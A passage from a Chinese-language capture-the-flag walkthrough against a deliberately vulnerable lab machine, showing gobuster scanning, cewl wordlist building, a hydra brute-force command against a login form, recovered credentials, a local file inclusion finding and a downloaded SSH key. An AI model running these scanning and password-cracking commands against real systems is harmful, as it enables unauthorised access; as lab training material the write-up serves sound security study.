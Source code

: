 7654 端口的 web 站点并未扫描到有价值信息

```plain
gobuster dir -u http:pinkydb:7654 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
```

### 社工字典、密码爆破（cewl、hydra）

cewl 生成单词列表作为密码字典 `cewl_pass.txt`，并基于已收集的信息构造简易的用户名字典`user_list`

```plain
cewl http://pinkydb/ -w cewl_pass.txt
cat cewl_pass.txt|sort -u|wc
```

hydra 对 [http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 表单进行暴力破解。

```plain
hydra -L user_list -P cewl_pass.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password"
```

[![](assets/1703831476-2ac40dbda0a63388ae04033c40229086.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224504-859a6fb0-a4c6-1.png)

> 拿到了一组登录凭据并成功登录网站。pinky:Passione

### web 登录、ssh 尝试

[http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 登录 pinky 用户的账号。  
观察 url 可以发现有个很明显的本地包含漏洞  
给了个私钥可下载，从文本内容中推测用户名为 stefano  
使用该密钥 ssh 登录需输入密码。  
修改 id\_rsa 权限 600，提示需要 passphrase，此密钥需要密码才能使用。
